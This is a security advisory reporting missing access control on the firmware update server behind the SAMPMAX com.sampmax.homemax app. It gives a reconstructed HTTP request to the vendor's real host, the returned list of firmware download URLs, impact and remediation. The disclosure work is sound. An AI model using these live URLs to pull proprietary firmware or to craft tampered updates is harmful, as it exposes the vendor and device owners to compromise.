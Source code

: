 # Vulnerability Report - com.sampmax.homemax- Incorrect Access Control

**Product:** `com.sampmax.homemax` 

**Vendor:** [SAMPMAX](https://www.sampmax.com/)

**Version:** 2.1.2.7

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.sampmax.homemax` , developed by Shelly, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `getGatewayNewVersion` String value in the `GatewayInfoPresenter` class provides the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241002234349612](https://s2.loli.net/2024/10/02/wuLRQCm7qkW4gVH.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://dev.fbeecloud.com/backup/binupd.js HTTP/1.1
   Host: dev.fbeecloud.com
   Content-Type: text/plain
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Server: nginx
   Date: Wed, 02 Oct 2024 15:32:13 GMT
   Content-Type: application/javascript; charset=utf-8
   Content-Length: 1754
   Last-Modified: Tue, 12 Mar 2024 08:13:36 GMT
   Connection: keep-alive
   Vary: Accept-Encoding
   ETag: "65f00eb0-6da"
   Expires: Thu, 03 Oct 2024 03:32:13 GMT
   Cache-Control: max-age=43200
   Accept-Ranges: bytes
   
   [{"binname":"GD","binupdlog":"","verName":"1.1.1","url":"http:\/\/dev.fbeecloud.com\/backup\/devcloud12.bin"},{"binname":"LM","binupdlog":"","verName":"1.5.6","url":"http:\/\/www.fbeecloud.com\/app\/lm3s156.bin"},{"binname":"GW","binupdlog":"","verName":"5.0.8","url":"http:\/\/www.fbeecloud.com\/app\/gw508.bin"},{"binname":"Sky","binupdlog":"","verName":"s.2.7","url":"http:\/\/www.fbeecloud.com\/app\/gateway_S27.bin"},{"binname":"FGR87T5","binupdlog":"","verName":"3.0.3","url":"http:\/\/www.fbeecloud.com\/app\/FGR87T5303.bin"},{"binname":"DoorLock","binupdlog":"","verName":"1.9","url":"http:\/\/www.fbeecloud.com\/app\/DoorLock_019.ota"},{"binname":"FGA87M4","verName":"R.0.4","binupdlog":"","url":"http:\/\/www.fbeecloud.com\/app\/FGA87M4_R041.bin"},{"binname":"FEIBIT4","verName":"F.0.3","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FEIBIT4_F.0.3.bin"},{"binname":"FGL80Q0","verName":"D.4.C","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FGL80Q0-firmware-D4C-54-52-20200609-wifioff.tar"},{"binname":"FGC80M4","verName":"D.4.3","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FGC80M4-firmware-D43-42-49-20200403.tar1.gz"},{"binname":"FGC80M4-Test","verName":"D.3.6","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FGC80M4-firmware-D36-201910170.tar.gz"},{"binname":"FGC89T0","verName":"L.0.3","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FGC89T0-L.0.3.tar1.gz"},{"binname":"test_GM","verName":"1.0","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/libGM_sigmaStar.so"},{"binname":"CO","verName":"N.6.7","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/FStack_GW.bin"},{"binname":"GM","verName":"1.1.0","binupdlog":"","url":"http:\/\/dev.fbeecloud.com\/backup\/GManage"}]
   ```
   
3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241002234447957](https://s2.loli.net/2024/10/02/fV7MCWFxyYqv5LU.png)


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.